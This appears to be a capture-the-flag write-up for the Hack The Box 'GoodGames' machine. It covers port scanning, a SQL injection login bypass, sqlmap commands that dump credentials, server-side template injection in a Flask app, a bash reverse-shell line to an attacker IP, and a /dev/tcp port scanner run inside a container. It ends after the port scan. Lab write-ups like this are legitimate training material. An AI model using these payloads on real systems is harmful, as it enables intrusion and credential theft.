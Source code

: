 # nmap
## nmap all ports
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/nmap%20port%20scan.png)

# gobuster
## gobuster main
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/gobuster-main.png)

# domain

## goodgame.htb/blog
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames.htb.blog.png)

## STORE: site is in progress, nothing interesting
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames.htb.coming-soon.png)

Login Panel: goodgames.htb
mail: @ is required and therefore not sqli testable --> intercept with burp 
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames%20login%20page.png)

Try simple sqli in login creds 
sqli:  'or 1=1-- -

## Intercept
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/burpsuite%20login%20intercept.png)

## Payload
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/burpsuite%20sqli%20success.png)

//Succesfull payload:   ' or 1=1-- -
## Succesfull login
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/domain%20login%20successful.png)

## Dashboard
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames%20dashboard.png)

## new subdomain: internal-administration.goodgames.htb
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames%20unknown%20host.png)

## Again a login
## Try creds found by sqlmap: admin:superadministrator
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/internal-administration.goodgames.htb.login.png)

# sqlmap
//dump databases
````
sqlmap -r request-login.txt --dbs

`````

## database snippet
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/sqlmap%20databases.png)

dump database main and its tables entrys
````
sqlmap -r request-login.txt -D main --tables

## speed it up

sqlmap -r request-login.txt --dbs --threads 10 --time-sec 1
`````

## database main tables
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/sqlmap%20database%20main%20tables.png)
dump user table
````
sqlmap -r request-login.txt -D main -T user --dump

## speed it up

sqlmap -r request-login.txt -D main -T user --dump --threads 10 --time-sec 1
`````
## receive creds from database
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/sqlmap%20creds.png)

## crackstation
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/crackstation%20admin%20hash.png)

## internal.administration dashboard
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/internal%20admnistration%20dashboard.png)

## Flask application dashborar in settings: SSTI {{7*7}} = 49
![](Pasted image 20220913185124.png)

![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/ssti%20reflected.png)


![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/ssti%20payloads%20to%20rce.png)

ssti payload: make http server in www and host index.html file.
index.html content: 
````

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('10.10.14.7').read() }}

````
make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

![](python3 http server on port 80.png)

![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/docker%20shell.png)

ls -la on entrypoint of shell shows dockerfile!
![](initial shell list files.png)
augustus got user name: 1000 --> docker?
mount shows that the home directory is mounted
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/home.augustus%20is%20mounted.png)

internal ip of docker: 172.19.0.2
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/shell%20list%20networks.png)


nmap isnt installed on machine; make own bash script like this:
````
for port in $(seq 1 1000); do (echo "blah" > /dev/tcp/172.19.0.1/$port && echo "open - $port") 2>/dev/null; done

`````
writes blah to the port and if succeeds (&&) it will print open port

![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/bash%20custom%20port%20scanner.png)




XXXXXXXXXXXX